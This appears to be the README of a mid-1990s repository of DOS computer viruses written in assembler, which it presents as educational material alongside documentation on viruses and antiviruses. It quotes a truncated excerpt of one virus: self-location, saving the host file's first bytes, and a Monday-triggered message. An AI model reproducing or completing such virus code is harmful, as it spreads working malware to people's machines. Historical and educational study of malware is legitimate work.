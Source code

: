 Computer Viruses
================

Last update: 1996 - 1997

This project contains education / informative materials about DOS viruses.

- The [/src](/src) folder contains a few DOS bases viruses created in assembler
- The [/doc](/doc) folder contains information about DOS viruses and antiviruses

```assembly
lungime equ ((offset sfirsit)-(offset entry))
.model tiny
.code
org 100h
entry: call entr                                ; find in BP the address of the virus
entr   proc near
       pop bp
       sub bp,3
       mov byte ptr [cale+2-entry+bp],'C'

       mov cx,5                                 ; save the first 5 bytes
       mov si,offset header-entry               ; in memory
       add si,bp
       mov di,offset horig-entry
       add di,bp
       rep movsb

          mov ah,2ah
          int 21h
          cmp al,1                               ; display the message if monday
          jnz urmat
          mov ah,9
          mov dx,offset mesaj-entry
          add dx,bp
          int 21h

	...
```

VMA
